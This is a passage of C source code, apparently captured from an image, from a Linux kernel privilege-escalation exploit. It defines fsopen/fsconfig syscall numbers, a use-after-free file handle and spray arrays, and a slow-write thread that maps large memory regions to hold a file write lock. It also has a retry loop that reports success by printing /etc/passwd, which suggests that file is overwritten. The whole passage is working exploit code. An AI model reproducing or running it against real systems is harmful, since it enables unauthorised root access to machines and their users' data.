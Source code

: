 ```
            printf("errno: %d\n", errno);
        }
        int ret_status = wait_for_loop(pid);
        if (ret_status == 0) {
            printf("[!] succeed\n");
            sleep(1);
            printf(" checking /etc/passwd\n\n");
            printf(" executing command : head -n 5 /etc/passwd\n");
            sleep(1);
            system("head -n 5 /etc/passwd");
            return 1;
        } else {
            printf("[-] failed to write, retry...\n\n");
            sleep(3);
        }
    }
}

// ===========================

#ifndef __NR_fsconfig
#define __NR_fsconfig 431
#endif
#ifndef __NR_fsopen
#define __NR_fsopen 430
#endif

#define MAX_FILE_NUM 1000
int uaf_fd;
int fds[MAX_FILE_NUM];

int run_write = 0;
int run_spray = 0;
char *cwd;

void *slow_write() {
    printf("start slow write to get the lock\n");    int fd = open("./uaf", 1);

    if (fd < 0) {
        perror("error open uaf file");
        exit(-1);
    }

    unsigned long int addr = 0x30000000;
    int offset;
    for (offset = 0; offset < 0x80000; offset++) {
        void *r = mmap((void *)(addr + offset * 0x1000), 0x1000,
                       PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
        if (r < 0) {
            printf("allocate failed at 0x%x\n", offset);
        }
    }

    assert(offset > 0);

    void *mem = (void *)(addr);
    memcpy(mem, "hhhhh", 5);

    struct iovec iov[5];
    for (int i = 0; i < 5; i++) {
        iov[i].iov_base = mem;
        iov[i].iov_len = (offset - 1) * 0x1000;
    }
```